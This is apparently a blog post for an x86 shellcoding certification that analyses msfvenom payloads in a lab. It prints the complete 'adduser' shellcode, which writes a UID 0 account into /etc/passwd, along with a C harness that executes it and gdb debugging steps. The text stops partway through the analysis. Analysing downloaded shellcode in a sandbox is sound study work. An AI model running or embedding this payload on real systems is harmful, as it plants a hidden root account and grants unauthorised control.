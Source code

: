 ```yaml
---
layout: single
title: Shellcode Samples Analysis
date: 2019-10-07
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
If we search on internet we will find a lot of ready to use shellcodes of various types, somes are for simple command execution, others adds "secret users" in victim machine, others are bind and reverse shell like the shellcodes wrote in this blog. The question is, shall we trust shellcodes found in internet? Following the general rule "Trust no one" the answer should be a big No, but sometime, for example when we have limited time, we prefer or we are forced to use others shellcode.<br>
In this cases what we suggest is to analyze the downloaed shellcode in sandbox machine before use it, to ensure that it will do what it declare.<br>
For this post we want to show how to analyze 4 samples of shellcodes took from msfvenom payload tool.
We can use the msfvenom tool to list payloads that could be produced:
```bash
root@slae32-lab:# msfvenom -l payloads |grep linux/x86
```
![](/assets/images/SLAE32/assignment_5/analysis_0.png)<br>
We have already build (and analyzed) the bind and reverse shellcode types so we choosed this 4 shellcode samples:
- linux/x86/adduser "Create a new user with UID 0"
- linux/x86/chmod "Runs chmod on specified file with specified mode"
- linux/x86/exec "Execute an arbitrary command"
- linux/x86/read_file "Read up to 4096 bytes from the local file system and write it back out to the specified file descriptor"<br> 
So let's start our analysis

## Adduser
First thing, we must create the payload with msfvenom
```bash
root@slae32-lab:# msfvenom -p linux/x86/adduser -f C -a x86 --platform linux
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```
Now we need to analyze it with ndisasm, using the command 
```bash
echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```
We can see the assembly code 
![](/assets/images/SLAE32/assignment_5/analysis_1.png)<br>
and we can see also the syscalls involved in this payload.
We have to remember that this shellcode has the scope of insert a user with uid 0 in the system so presumibly it write a new well crafted row in /etc/passwd file.
Now let's look at the assembly and try to indentify the syscalls and other components of the shellcode.<br>
![](/assets/images/SLAE32/assignment_5/analysis_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid.png)<br>
![](/assets/images/SLAE32/assignment_5/open.png)<br>
![](/assets/images/SLAE32/assignment_5/write.png)<br>
![](/assets/images/SLAE32/assignment_5/exit.png)<br>

So we can resume the syscalls involved in this shellcode:
1. setgid
2. open
3. write
4. exit

Now we can put the shellcode inside our executing C code, compile it and debug it with gdb.<br>
```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51
\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63
\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65
\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73
\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a
\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58
\xcd\x80\x6a\x01\x58\xcd\x80";

void main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
### setgid()
The first syscall as said is the ```setgid``` that want the 0x46 in the EAX register and the gid of the caller as argument, in EBX regsister. In this case the payload set the gid to 0 (root).
![](/assets/images/SLAE32/assignment_5/setgid_0.png)<br>
Now define hook-stop procedure, ```stepi``` to the ```int 0x80``` call and check the first 4 register
<br>
```gdb
Type commands for definition of "hook-stop".
End with a line saying just "end".
>disassemble 
>print/x $eax
>print/x $ebx
>print/x $ecx
>print/x $edx
>end
```
![](/assets/images/SLAE32/assignment_5/setgid_1.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_2.png)<br>
![](/assets/images/SLAE32/assignment_5/setgid_3.png)<br>


We have to note two things here. The first is the 3 push dword of the ```open``` syscall that is most certainly the file to open, let's check it.<br>
![](/assets/images/SLAE32/assignment_5/analysis_3.png)<br>

Copy the value 
```
6873737764
682F2F7061
682F657463 
```
and paste it in a converter<br>
![](/assets/images/SLAE32/assignment_5/analysis_4.png)<br>


Well done, we have find the file path opened by ```open``` syscall, it's /etc/passwd, obviously in reverse order beacause we are in little endian and with a double slah to make the number of the letters divisible by 4, so ```dwssap//cte/```.<br>
The second is the chunk of code just after the ```call dword 0x53```, it seems only text instead of assembly instruction and as we will see, this code would never be executed.<br>



